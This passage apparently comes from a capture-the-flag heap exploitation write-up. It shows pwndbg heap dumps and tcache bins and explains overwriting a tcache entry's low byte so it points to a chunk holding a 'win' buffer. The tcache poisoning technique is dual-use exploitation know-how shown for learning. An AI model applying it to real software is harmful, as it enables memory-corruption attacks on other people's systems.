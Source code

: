 ```
0x556630af60d0	0x0000000000000000	0x0000000000000000	................
0x556630af60e0	0x0000000000000000	0x0000000000000000	................
0x556630af60f0	0x0000000000000000	0x0000000000000000	................
0x556630af6100	0x0000000000000000	0x0000000000000000	................
0x556630af6110	0x0000000000000000	0x0000000000000000	................
0x556630af6120	0x0000000000000000	0x0000000000000000	................
0x556630af6130	0x0000000000000000	0x0000000000000000	................
0x556630af6140	0x0000000000000000	0x0000556630af64b0	.........d.0fU..
0x556630af6150	0x0000000000000000	0x0000000000000000	................
[...]
pwndbg> bins
tcachebins
0x20 [  2]: 0x556630af6300 —▸ 0x556630af62e0 ◂— 0x0
0x190 [  2]: 0x556630af64b0 —▸ 0x556630af6320 ◂— 0x0

[...]

```

From here, change the `LSB` of the `0x20` `t-cache entry` to point to our desired pointer. In this case, that would be located at the `chunk` created by the `prep` function:
```
0x556630af6290	0x0000000000000000	0x0000000000000021	........!.......
0x556630af62a0	0x000001a95e006000	0x0000000000000000	.`.^............
0x556630af62b0	0x0000000000000000
```

To do so, let's free up the `mgmt` chunk again, then overwrite the `LSB` of our `0x20` entry to point to the `chunk` containing the `win` buffer:
```
pwndbg> vis 2

0x556630af6000	0x0000000000000000	0x0000000000000291	................
0x556630af6010	0x0000000556630af6	0x0000000000000000	..cV............
0x556630af6020	0x0000000000000000	0x0000000000000000	................
0x556630af6030	0x0000000000000000	0x0002000000000000	................
0x556630af6040	0x0000000000000000	0x0000000000000000	................
0x556630af6050	0x0000000000000000	0x0000000000000000	................
0x556630af6060	0x0000000000000000	0x0000000000000000	................
0x556630af6070	0x0000000000000000	0x0000000000000000	................
0x556630af6080	0x0000000000000000	0x0000000000000191	................
0x556630af6090	0x0000556630af62a0	0x0000000000000000	.b.0fU..........
0x556630af60a0	0x0000000000000000	0x0000000000000000	................
0x556630af60b0	0x0000000000000000	0x0000000000000000	................
0x556630af60c0	0x0000000000000000	0x0000000000000000	................
0x556630af60d0	0x0000000000000000	0x0000000000000000	................
0x556630af60e0	0x0000000000000000	0x0000000000000000	................
0x556630af60f0	0x0000000000000000	0x0000000000000000	................
0x556630af6100	0x0000000000000000	0x0000000000000000	................
0x556630af6110	0x0000000000000000	0x0000000000000000	................
0x556630af6120	0x0000000000000000	0x0000000000000000	................
0x556630af6130	0x0000000000000000	0x0000000000000000	................
0x556630af6140	0x0000000000000000	0x0000556630af64b0	.........d.0fU..
0x556630af6150	0x0000000000000000	0x0000000000000000	................
0x556630af6160	0x0000000000000000	0x0000000000000000	................
0x556630af6170	0x0000000000000000	0x0000000000000000	................
0x556630af6180	0x0000000000000000	0x0000000000000000	................
0x556630af6190	0x0000000000000000	0x0000000000000000	................
0x556630af61a0	0x0000000000000000	0x0000000000000000	................
0x556630af61b0	0x0000000000000000	0x0000000000000000	................
0x556630af61c0	0x0000000000000000	0x0000000000000000	................
0x556630af61d0	0x0000000000000000	0x0000000000000000	................
0x556630af61e0	0x0000000000000000	0x0000000000000000	................
0x556630af61f0	0x0000000000000000	0x0000000000000000	................
```